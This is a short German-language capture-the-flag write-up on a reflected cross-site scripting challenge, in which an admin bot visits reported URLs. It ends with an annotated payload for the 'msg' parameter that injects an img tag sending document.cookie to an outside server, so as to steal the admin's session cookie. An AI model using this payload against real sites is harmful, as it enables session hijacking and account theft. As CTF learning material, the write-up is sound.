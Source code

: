 # KREUZSEITEN

## Intro 
url: http://vuln3.redrocket.club:8111/
* quotes kann man über get anzeigen mit dem Paramter msg: /?msg=Mamas+sind+die+Besten
* allerdings wird nirgendwo was gespeichert, weil man kann sich auch random quotes anzeigen lassen, die noch keiner hinzugefügt haben kann
* man kann bugs reporten indem man die url dazu einfügt (das hört sich nach einer Schwachstelle an)
* da die Aufgabe Kreuzseiten heißt, geht man von cross site scripting aus (xss)
* Fabian meint man braucht einen webserver und muss sich das access log anzeigen lassen 
(macht ja auch sinn weil wir greifen den enduser an)

ich muss den apache server wieder stoppen: https://www.tecmint.com/install-apache-web-server-in-a-docker-container/

# KreuzSeiten

1. Der Admin scheint nur Links aufzurufen, die von der Inspirational Quote Seite kommen
2. Die Eingabe in das Formular wird auf der Folgeseite ohne vorheriges Sanatizing dargestellt
3. Als XSS Angriff kann ein img tag eingeschleust werden, dessen source tag auf einen eigenen Webserver verweist:

Diese URL wird als buggy reportet:

```javascript
http://vuln3.redrocket.club:8111/
//parameter is msg (it does not work on the actual bug page) 
// in parameter wird script eingebaut 
?msg=<script>

// document.write erzeugt einen String 
document.write(
// den string beginnen wir mit "hi und dann einen Link zu einem image 
"hi
// link zu image 
<img src=https://server.de/",
// aus dem link machen wir einen get-parameter, der den aktuell in der webanwendung bekannten cookie (vom admin) enthält 
"?cookie=",
// hier wird auf den aktuellen cookie zugegriffen 
document.cookie,
// wir schließen den link mit dem > tag und schließen den string der mit "hi begann mit einem " Zeichen 
">")
// wir beenden das dyn. java script 
</script>
```




